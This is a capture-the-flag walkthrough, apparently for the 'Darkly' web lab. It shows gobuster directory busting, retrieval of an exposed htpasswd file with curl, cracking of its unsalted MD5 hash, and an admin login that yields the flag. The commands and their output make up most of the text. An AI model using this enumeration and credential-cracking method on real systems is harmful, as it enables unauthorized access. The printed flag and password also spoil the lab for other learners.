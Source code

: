 HtPasswd / Admin Panel
=====================

Like always, after messing around for a while with the landing page, it's time for some good old fashioned directory busting.


```
hakim@mentos42:~/42/Darkly$ gobuster dir --exclude-length 975 --url http://192.168.56.104 --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.104
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] Exclude Length:          975
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 193] [--> http://192.168.56.104/images/]
/admin                (Status: 301) [Size: 193] [--> http://192.168.56.104/admin/]
/audio                (Status: 301) [Size: 193] [--> http://192.168.56.104/audio/]
/css                  (Status: 301) [Size: 193] [--> http://192.168.56.104/css/]
/includes             (Status: 301) [Size: 193] [--> http://192.168.56.104/includes/]
/js                   (Status: 301) [Size: 193] [--> http://192.168.56.104/js/]
/fonts                (Status: 301) [Size: 193] [--> http://192.168.56.104/fonts/]
/errors               (Status: 301) [Size: 193] [--> http://192.168.56.104/errors/]
/whatever             (Status: 301) [Size: 193] [--> http://192.168.56.104/whatever/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

Non-existing URIs, like `/nonexistent` return a 404 error page, however, with a 200 HTTP status code, which confuses gobuster. So we can't rely on non-200 status codes, and we have to base it on the response Content Length (the 404 not found page always has the same content length, 975 in this case).

There are a couple of juicy looking endpoints, like /admin, /whatever, /errors, /audio and such. let's focus on /whatever for now.

The `/whatever` URI shows a directory list with 1 file: `htpasswd`

```
hakim@mentos42:~$ curl -L http://192.168.56.104/whatever
<html>
<head><title>Index of /whatever/</title></head>
<body bgcolor="white">
<h1>Index of /whatever/</h1><hr><pre><a href="../">../</a>
<a href="htpasswd">htpasswd</a>                                           29-Jun-2021 18:09                  38
</pre><hr></body>
</html>

hakim@mentos42:~$ curl -L http://192.168.56.104/whatever/htpasswd
root:437394baff5aa33daa618be47b75cb49
```

This file contains a `user:password` pair, with the password being a simple MD5 hash. Usually, for simple hashes with no salts I use the [CrackStation](https://crackstation.net/) webpage to obtain the cleartext password.

It shows us that the cleartext password is: `qwerty123@`. I wonder where could I introduce this user's credentials.... 
Earlier we discovered the `/admin` page. The content of this page is a simple user/passwd form. We introduce the credentials and we obtain the flag.

`http://192.168.56.104/admin`
The flag is : d19b4823e0d5600ceed56d5e896ef328d7a2b9e7ac7e80f4fcdb9b10bcb3e7ff


